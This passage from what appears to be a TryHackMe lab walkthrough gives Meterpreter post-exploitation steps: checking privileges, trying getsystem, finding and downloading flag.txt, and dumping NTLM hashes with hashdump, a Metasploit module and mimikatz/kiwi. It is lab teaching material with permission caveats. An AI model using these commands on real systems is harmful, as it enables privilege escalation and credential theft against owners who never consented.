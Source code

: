 
## 6) Post-exploitation: inspect privileges and host
**Why:** determine what actions are possible (finding flags, dumping hashes, escalating privileges). `getuid` and `sysinfo` quickly show context.

**Meterpreter commands:**
```
sysinfo
getuid
getsystem       # try to elevate to SYSTEM (lab-only; may or may not succeed)
```
**If `getuid` shows a normal user, you may need to escalate privileges before dumping SAM hashes.**

---

## 7) Locating and retrieving `flag.txt`
**Why:** lab objective often includes finding a proof file; do this with the least noisy method possible.

**Meterpreter file commands (preferred):**
```text
# search and read (if supported)
search -f flag.txt
cat C:\\path\\to\\flag.txt
download C:\\path\\to\\flag.txt /root/tryhackme/flags/flag.txt
```
**Or from a meterpreter shell using PowerShell (robust):**
```text
shell
powershell -c "Get-ChildItem -Path C:\ -Filter flag.txt -Recurse -ErrorAction SilentlyContinue | Select-Object FullName"
powershell -c "Get-Content 'C:\\path\\to\\flag.txt' -Raw"
# or classic windows:
dir C:\flag.txt /s /b
type C:\path\to\flag.txt
```

---

## 8) Dumping NTLM hashes (lab-only)
**Why:** NTLM hashes can be cracked offline to reveal plaintext credentials (useful for lateral movement or root/administrator access in a lab). Dumping typically requires SYSTEM privileges.

**Option A — Meterpreter built-in:**
```
# requires SYSTEM
hashdump
```
**Option B — Metasploit post module:**
```text
# from msfconsole root
use post/windows/gather/hashdump
set SESSION 1
run
```
**Option C — Kiwi / mimikatz (more intrusive):**
```text
use post/windows/gather/mimikatz
set SESSION 1
run
# or inside meterpreter:
load kiwi
creds_all
```
**Note:** these actions are noisy and may trigger detection; use only in labs or with permission.

---
